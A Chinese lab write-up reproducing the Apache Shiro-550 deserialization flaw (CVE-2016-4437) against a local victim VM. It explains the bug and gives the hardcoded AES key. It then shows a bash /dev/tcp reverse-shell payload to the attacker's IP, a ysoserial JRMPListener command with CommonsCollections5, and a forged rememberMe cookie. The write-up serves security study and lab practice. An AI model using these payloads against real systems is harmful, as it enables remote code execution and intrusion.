



CVE-2016-4437漏洞复现Shiro550
Apache Shiro简介
Apache Shiro是一款开源的Java安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。
漏洞范围
受影响版本：
Apache Shiro <= 1.2.4
漏洞简介
Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。
具体来说，Apache Shiro框架提供了RememberMe的功能，关闭了浏览器下次再打开时还是能记住你是谁，下次访问时无需再登录即可访问。Shiro对rememberMe的cookie做了加密处理，shiro在CookieRememberMeManaer类中将cookie中rememberMe字段内容分别进行序列化、AES加密、Base64编码操作。
在识别身份的时候，需要对Cookie里的rememberMe字段解密。根据加密的顺序，解密的顺序为：
- 获取rememberMe cookie
- base64 decode
- 解密AES
- 反序列化
在shiro版本<=1.2.24的版本中使用了固定的密钥kPH+bIxk5D2deZiIxcaaaA==，这样攻击者直接就可以用这个密钥实现上述加密过程，在Cookie字段写入想要服务端执行的恶意代码，并且对其序列化，AES加密，base64编码后，作为cookie的rememberMe字段发送。最后服务端在对cookie进行解密的时候（反序列化后）就会执行恶意代码。在后续的版本中，这个密钥也可能会被爆破出来，从而被攻击者利用构造payload。
shiro框架的验证过程
- 未登陆的情况下，请求包的cookie中没有rememberMe字段，返回包set-Cookie也没有rememberMe=deleteMe字段
- 登陆失败的话，不管有没有勾选RememberMe字段，返回包都会有rememberMe=deleteMe字段
- 登陆成功，不勾选RememberMe字段，返回包set-Cookie有rememberMe=deleteMe字段，但是之后的所有请求中Cookie都没有RememberMe字段
- 登陆成功，勾选RememberMe字段，登录成功的话，返回包set-Cookie里有rememberMe=deleteMe字段，还会有remember 字段，之后的所有请求中Cookie都会有rememberMe字段
- 在cookie后面自己加一个rememberMe=1，看返回包有没有rememberMe= deleteMe字段
环境搭建
搭建过程详见基于VirtualBox的网络攻防基础环境搭建
本次复现采用的环境：
| 测试环境 | IP |
|---|---|
| kali(攻击机) | 172.16.111.108 |
| ubuntu(靶机) | 172.16.111.120 |
| debian(网关) | 172.16.111.1 |
具体的网络环境如下
kali-attacker：


ubuntu-victim：


网关：


漏洞复现
ubuntu-victim：
1 | # 运行此漏洞环境 |

访问http://172.16.111.120:8080

勾选rememberMe后，POST请求包中会有rememberMe字段，响应包中有Set-cookie:rememberMe=deleteMe字段，判断使用了shiro框架

验证漏洞的核心应该还是在于攻击者可否获得这个AES加密的密钥，如果靶机使用的是初始密钥kPH+bIxk5D2deZiIxcaaaA==或者其他我们可以通过脚本工具爆破出来的密钥，那么shiro550漏洞一定存在。
kali-attacker：
使用Shiro_exploit脚本进行检测和爆破
1 | # 获取Shiro_exploit工具 |
复制在python2的安装目录下

获得了AES密钥为kPH+bIxk5D2deZiIxcaaaA==，说明漏洞存在

构造反弹shell指令的payload为：
bash -i >& /dev/tcp/172.16.111.108/8888 0>&1，其中，172.16.111.108是kali的ip，端口是待会nc监听的端口
要想java执行payloads，需要bash64编码一下，利用平台编码后得到
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTExLjEwOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
使用列化工具ysoserial指定 CommonsCollections5 利用链生成可执行的恶意命令，当后面有客户端请求服务时，攻击者搭建的JRMP就会返回该命令
1 | java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTExLjEwOC84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}" |

同时在kali攻击机再新建一个窗口，用来监听8888端口

构造一段python代码shiro.py如下，作用是对JRMPListener的地址即172.16.111.108:7777先AES加密再base64编码，即构造了请求包cookie中的rememberMe字段，向靶机发送编码后的结果
1 | import sys |
执行python shiro.py 172.16.111.108:7777

ubuntu-victim：
靶机受到请求包，对其先base64解码再AES解密，发现要和一个JRMP 7777端口进行通信，向恶意的JRMP 7777进行请求，接收到了到了序列化后的反弹shell恶意代码，对其进行了反序列化，执行了反弹shell命令
在Cookie字段后添加rememberMe字段
1 | rememberMe=IGxCQteBThOhAi4YyttcKTsFjLQ/iEdzBqoY3Yb6+0j+rmjFhfF6KzjRR6cDgCkyxVOwIs9P5K7wgviFTzgNNBMlQNMQdqWwXdWSeJxCyvccjvDPeHU5kXejIrtd88DoLasVw+R1O+O/1VNo7Wlvp2gwq3h8uqSlT8A0XMs+XAiQkujQnZLvbXhJC1EG7B4x/OFnk93wjpKMDJLqkjGm6L6zC5Au2/Lg7teazEVqYJE4ltGbrHZHALSjldBvoDnIS2sD9tSk6v00prdceHZ4+uYVLKeKOfjWQwKG2idfEZpsn001u/q3ZXoMHzwJuz9acV899wkGuhLuF12eIAy+H+diitP1gekd5EfsgtbKp18cqNd5ExpDqAt/tchY2fpXGebKZLfzaSYcpLQ== |

kali-attacker：
查看此时JRMP监听的端口

kali监听端口成功接收反弹shell

参考
shiro550反序列化漏洞原理与漏洞复现（基于vulhub）
Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）